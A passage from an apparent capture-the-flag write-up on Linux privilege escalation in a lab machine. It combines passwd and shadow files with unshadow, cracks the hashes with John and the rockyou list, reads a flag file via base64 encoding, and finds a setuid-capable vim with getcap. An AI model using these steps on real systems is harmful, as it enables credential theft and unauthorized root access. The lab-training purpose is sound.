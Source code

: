 We can copy and paste this to our local machine as password.txt and shadow.txt respectively. Next we need to "combine" these two together into a file that we can leverage `John` to crack the hashes, we can use the `unshadow` tool to do this, giving the two files as input:

```sh
$ unshadow passwd.txt shadow.txt > crackme.txt
Created directory: /home/rev/.john
```

Now let's try using `john` with a word list...

```sh
ohn --wordlist=/usr/share/wordlists/rockyou.txt crackme.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P-------- (karen)
P-------- (user2)
t------ (gerryconway)
3g 0:00:00:05 DONE (2021-11-07 09:51) 0.5747g/s 3432p/s 4806c/s 4806C/s paramedic..biscuit1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Sweet! We cracked some hashes, we now have `user2` and `gerryconway`. Our next step would be switching to this users and attempt to you their permissions to get us more permissions. However, for this task the only thing that is left to do is read the flag, for this we can use the same `base64` trick!

```sh
base64 /home/ubuntu/flag3.txt | base64 --decode
```

# Privilege Escalation: Capabilities

Capabilities provides a way for administrators to manage the privilege level of a binary or process in a more granular level. To check the capabilities we can use the `getcap` tool:

```
karen@ip-10-10-91-51:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

We can see that `vim` can be leveraged because it is given the `cap_setuid+ep` capability. Let's leverage vim and execute a shell using python:
